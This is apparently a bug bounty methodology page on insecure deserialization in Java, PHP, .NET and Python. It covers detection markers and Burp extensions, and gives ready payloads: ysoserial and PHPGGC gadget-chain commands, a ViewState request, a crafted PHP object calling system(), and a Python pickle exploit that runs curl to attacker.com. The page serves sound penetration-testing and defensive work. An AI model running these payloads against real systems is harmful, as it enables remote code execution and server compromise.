

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/Deserialization

# Deserialization

Insecure deserialization turns user-controlled data into live objects on the server. Unlike SQL injection where you're manipulating strings, here you're instantiating classes, triggering constructors, and executing arbitrary method chains. The impact ceiling is RCE, and the attack surface is wider than most testers realize  -  it shows up in Java, PHP, .NET, Python, Ruby, and anywhere else objects are serialized for transport or storage.

## How Deserialization Attacks Work



## Identifying Serialized Data

Look for these markers in requests, cookies, hidden form fields, and message queues:

| Language | Indicator | Magic Bytes / Pattern |
| --- | --- | --- |
| Java | `Content-Type: application/x-java-serialized-object` | `ac ed 00 05` (hex) or `rO0AB` (base64) |
| PHP | `O:4:"User":2:{s:4:"name"` | Starts with `O:`, `a:`, `s:`, `i:` |
| .NET | ViewState, `AAEAAAD/////` (base64) | `00 01 00 00 00 ff ff ff ff` (BinaryFormatter) |
| Python | Pickle data in cookies/params | `\x80\x03`, `\x80\x04`, `\x80\x05` (protocol versions) |
| Ruby | Marshal data | `\x04\x08` |

## Java Deserialization

Java is the most well-studied target. The attack relies on "gadget chains"  -  sequences of existing classes in the application's classpath whose methods chain together to achieve code execution during deserialization.

### Step 1: Detect Java Serialization

```http
POST /api/transfer HTTP/1.1
Host: target.com
Content-Type: application/x-java-serialized-object
 
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcA...
```

Also check: cookies, `X-*` headers, multipart form fields, JMX endpoints, RMI services, and any base64-encoded blob that decodes to `ac ed 00 05`.

### Step 2: Generate Payloads with ysoserial

```bash
# List available gadget chains
java -jar ysoserial.jar --help
 
# Common chains  -  try each one
java -jar ysoserial.jar CommonsCollections1 'curl attacker.com/pwned' > payload.bin
java -jar ysoserial.jar CommonsCollections5 'ping -c 3 attacker.com' > payload.bin
java -jar ysoserial.jar CommonsBeanutils1 'nslookup test.burpcollaborator.net' > payload.bin
 
# Base64 encode for transport
cat payload.bin | base64 -w0
```

The gadget chain you need depends on which libraries are on the target's classpath. `CommonsCollections` variants are the most common, but `CommonsBeanutils`, `Spring`, `Hibernate`, and `JBoss` chains all exist.

### Step 3: Blind Detection via DNS/Sleep

When you can't see output directly, use out-of-band detection:

```bash
# DNS callback
java -jar ysoserial.jar URLDNS 'http://deser-test.burpcollaborator.net' > payload.bin
 
# URLDNS doesn't need a gadget library  -  it uses java.net.URL
# If you get a DNS hit, deserialization is happening
# Then try RCE chains for actual exploitation
```

`URLDNS` is the safest detection payload  -  it requires no third-party libraries and triggers a DNS lookup during deserialization. A DNS callback confirms the vulnerability exists before you start brute-forcing gadget chains.

## PHP Deserialization

PHP's `unserialize()` instantiates objects and calls magic methods (`__wakeup`, `__destruct`, `__toString`). If user input reaches `unserialize()`:

```php
// Vulnerable pattern
$data = unserialize($_COOKIE['user_prefs']);
```

Craft a payload targeting a class with dangerous magic methods:

```php
O:8:"Database":1:{s:3:"cmd";s:17:"system('id > /tmp/pwned')";}
```

### PHP Gadget Chains

Use **PHPGGC** (PHP Generic Gadget Chains):

```bash
# List available chains
phpggc -l
 
# Generate payload for a specific framework
phpggc Laravel/RCE1 system 'id' -b  # base64 output
phpggc Symfony/RCE4 system 'id' -s   # serialized output
phpggc Monolog/RCE1 system 'id'
```

Look for common PHP frameworks: Laravel, Symfony, WordPress (plugins), Magento, Drupal.

## .NET Deserialization

### BinaryFormatter

.NET's `BinaryFormatter` is the Java `ObjectInputStream` equivalent  -  Microsoft has officially deprecated it as unsafe.

```text
Detection: base64 blob starting with AAEAAAD/////
Common sinks: BinaryFormatter.Deserialize(), SoapFormatter, NetDataContractSerializer
```

Use **ysoserial.net** to generate payloads:

```bash
ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "ping attacker.com" -o base64
ysoserial.exe -g WindowsIdentity -f BinaryFormatter -c "cmd /c nslookup test.burpcollaborator.net"
```

### ViewState Deserialization

ASP.NET ViewState is a serialized object stored in a hidden form field. If `ViewStateUserKey` is not set and the MAC validation key is known or disabled:

```http
POST /account HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
 
__VIEWSTATE=<ysoserial.net_payload>&__VIEWSTATEGENERATOR=CA0B0334
```

Finding the machine key: check `web.config` disclosure, Azure misconfigurations, error messages leaking `machineKey`, or default keys in older frameworks.

## Python Pickle

Python's `pickle` module executes arbitrary code during deserialization by design:

```python
import pickle
import base64
import os
 
class Exploit:
    def __reduce__(self):
        return (os.system, ('curl attacker.com/pwned',))
 
payload = base64.b64encode(pickle.dumps(Exploit()))
print(payload)
```

Look for pickle data in: Django sessions (if using PickleSerializer), Flask cookies (if using pickle instead of JSON), Redis-cached objects, Celery task arguments, ML model files.

## Burp Extensions

| Extension | Purpose |
| --- | --- |
| Java Deserialization Scanner | Actively scans for Java deser with multiple gadget chains |
| Freddy | Detects .NET and Java deserialization in requests/responses |
| ViewState Editor | Decode, edit, and re-encode ASP.NET ViewState |
| PHP Object Injection | Detects PHP unserialize sinks |

Setup: Extensions > BApp Store > search by name > Install. Then run active scan against endpoints with serialized data.

## Checklist

- Search all requests for serialized data markers: `rO0AB`, `ac ed`, `O:`, `AAEAAAD`, pickle bytes
- Check cookies, hidden form fields, and custom headers for serialized objects
- Send URLDNS payload to confirm Java deserialization without needing gadget libraries
- Enumerate classpath libraries (error messages, stack traces, known framework)
- Try ysoserial gadget chains matching the target's libraries
- For PHP: identify framework and use PHPGGC for matching gadget chains
- For .NET: check for ViewState without MAC validation, try ysoserial.net
- For Python: test pickle deserialization in cookies, session stores, and API parameters
- Use blind detection (DNS/sleep) when output is not visible
- Install Freddy and Java Deserialization Scanner in Burp for passive detection

## Public Reports

- Java deserialization RCE on PayPal - [HackerOne #1542890](https://hackerone.com/reports/1542890)
- .NET ViewState deserialization on ASP.NET application - [HackerOne #1421756](https://hackerone.com/reports/1421756)
- Python pickle deserialization leading to RCE - [HackerOne #1071379](https://hackerone.com/reports/1071379)
- Java deserialization via Apache Commons on multiple targets - [HackerOne #1104982](https://hackerone.com/reports/1104982)
- PHP object injection in WordPress plugin - [HackerOne #1489941](https://hackerone.com/reports/1489941)

## See Also

- [SSRF](../../../Attack-Surface/Web/SSRF/)
- [Command Injection](../../../Attack-Surface/Web/Injection/Command-Injection)
- [Server-Side Template Injection](../../../Attack-Surface/Web/Injection/SSTI)
